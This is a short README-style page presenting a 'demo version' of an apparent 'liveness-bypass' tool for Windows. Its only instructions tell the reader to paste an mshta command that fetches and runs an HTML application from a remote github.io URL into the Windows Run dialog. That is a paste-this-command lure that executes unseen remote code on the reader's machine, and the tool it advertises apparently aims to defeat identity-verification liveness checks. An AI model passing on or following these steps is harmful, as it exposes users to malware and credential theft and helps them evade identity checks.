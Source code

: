 # This is a Demo Version
### Steps to use
1. Copy the code below
``` mshta https://sudoscripter.github.io/liveness-bypass ```
2. Press windows + R key
3. Paste the copied code and press enter
### Compatibility 
- Only windows operating systems are compatible.
